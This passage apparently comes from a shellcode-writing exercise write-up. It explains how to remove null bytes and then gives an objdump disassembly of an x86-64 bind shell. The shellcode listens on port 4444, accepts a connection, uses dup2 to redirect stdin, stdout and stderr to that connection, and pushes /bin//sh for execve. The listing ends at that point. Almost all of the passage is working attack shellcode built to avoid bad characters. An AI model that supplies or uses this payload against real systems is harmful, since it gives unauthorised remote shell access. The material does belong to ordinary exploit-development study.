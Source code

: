 The simpliest way to remove null bytes is to clear registers then to use register of the same size as the value we want to copy into it.  
For the "mov m16, imm8" to copy the immediate value into a register then mov the corresponding word register to memory.  
And to xor the registers that are cleared with "mov r, 0x00" instructions.
 
### Dump after null bytes removing

```nasm
skrox@kali:~$ objdump -M intel -d BindShell-null-removed

BindShell:     format de fichier elf64-x86-64


Déassemblage de la section .text :

0000000000401000 <_start>:
  401000:	31 ff                	xor    edi,edi
  401002:	f7 e7                	mul    edi
  401004:	89 fe                	mov    esi,edi
  401006:	b0 29                	mov    al,0x29
  401008:	40 b7 02             	mov    dil,0x2
  40100b:	40 b6 01             	mov    sil,0x1
  40100e:	0f 05                	syscall 
  401010:	48 89 c7             	mov    rdi,rax
  401013:	48 31 c0             	xor    rax,rax
  401016:	50                   	push   rax
  401017:	89 44 24 fc          	mov    DWORD PTR [rsp-0x4],eax
  40101b:	66 c7 44 24 fa 11 5c 	mov    WORD PTR [rsp-0x6],0x5c11
  401022:	b0 02                	mov    al,0x2
  401024:	66 89 44 24 f8       	mov    WORD PTR [rsp-0x8],ax
  401029:	48 83 ec 08          	sub    rsp,0x8
  40102d:	b0 31                	mov    al,0x31
  40102f:	48 89 e6             	mov    rsi,rsp
  401032:	b2 10                	mov    dl,0x10
  401034:	0f 05                	syscall 
  401036:	b0 32                	mov    al,0x32
  401038:	40 b6 02             	mov    sil,0x2
  40103b:	0f 05                	syscall 
  40103d:	b0 2b                	mov    al,0x2b
  40103f:	48 83 ec 10          	sub    rsp,0x10
  401043:	48 89 e6             	mov    rsi,rsp
  401046:	c6 44 24 ff 10       	mov    BYTE PTR [rsp-0x1],0x10
  40104b:	48 83 ec 01          	sub    rsp,0x1
  40104f:	48 89 e2             	mov    rdx,rsp
  401052:	0f 05                	syscall 
  401054:	49 89 c1             	mov    r9,rax
  401057:	b0 03                	mov    al,0x3
  401059:	0f 05                	syscall 
  40105b:	4c 89 cf             	mov    rdi,r9
  40105e:	b0 21                	mov    al,0x21
  401060:	31 f6                	xor    esi,esi
  401062:	0f 05                	syscall 
  401064:	b0 21                	mov    al,0x21
  401066:	40 b6 01             	mov    sil,0x1
  401069:	0f 05                	syscall 
  40106b:	b0 21                	mov    al,0x21
  40106d:	40 b6 02             	mov    sil,0x2
  401070:	0f 05                	syscall 
  401072:	48 31 c0             	xor    rax,rax
  401075:	50                   	push   rax
  401076:	48 bb 2f 62 69 6e 2f 	movabs rbx,0x68732f2f6e69622f
  40107d:	2f 73 68 
  401080:	53                   	push   rbx
```